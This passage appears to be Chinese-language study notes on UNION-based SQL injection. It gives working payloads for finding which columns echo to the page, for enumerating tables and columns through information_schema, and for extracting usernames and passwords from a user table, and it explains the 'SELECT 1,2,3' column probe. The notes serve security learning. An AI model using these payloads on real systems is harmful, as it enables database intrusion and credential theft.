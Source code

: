 > 解决：找到有用的数据列

```SQL
'UNION SELECT'a'，NULL，NULL，NULL-- 
'UNION SELECT NULL，'a'，NULL，NULL-- 
'UNION SELECT NULL，NULL，'a'，NULL-- 
'UNION SELECT NULL，NULL，NULL ，'a'-- 
```

### 步骤2

利用保留字获取其他表的信息，记住`information_schema`数据库和

`SCHEMATA`表存储该用户创建的所有数据库的库名
`TABLES`表存储该用户创建的所有数据库的库名和表名
`COLUMNS`表存储该用户创建的所有数据库的库名、表名和字段名

- 从当前数据库中提取数据表

  ```sql
  1' and 1=1 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema = database() --
  ```

-  从表名中提取列名

  ```sql
  1' and 1=1 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_schema = database() and table_name ='user'--
  ```

- 从表中提取敏感列的信息

  ```sql
  1' and 1=1 union select 1,group_concat(username,0x3a,password),3,4 from user--
  ```

### 解释：SELECT 1,2,3... 

```SQL
1' UNION SELECT 1,2,3#
1' UNION SELECT 1,2,3,4#
```

- 含义：select后面直接跟数字，**不指向任何数据表，返回值为一个1*n维数组**，只是一个例子，**值任意**，想获得多少列的数据，就写多少个数字，**因为不能超过最大列数，所以多用来测试列的数量**。

- 作用：**快速测试哪几列能回显**

  > 由于在SQL注入时，当我们已经知道了列数，可以使用union联合注入语句，但仍然会有一个问题：我们**不知道这个这些字段是否都能回显到网页前端被我们看见**。
  >
  > 所以这个语句相当于是**找到数据库与前端的显示通道**，避免重复且冗长的查询测试

- **误区：**

  **这里的`1,2,3...`没有任何的实际意义，并不代表第一列、第二列、第三列。反而某些函数和order by语句后面的数字能够代表第几列。**
  
- **实战结果：**

  ![image-20221122180251733](images/image-20221122180251733.png)
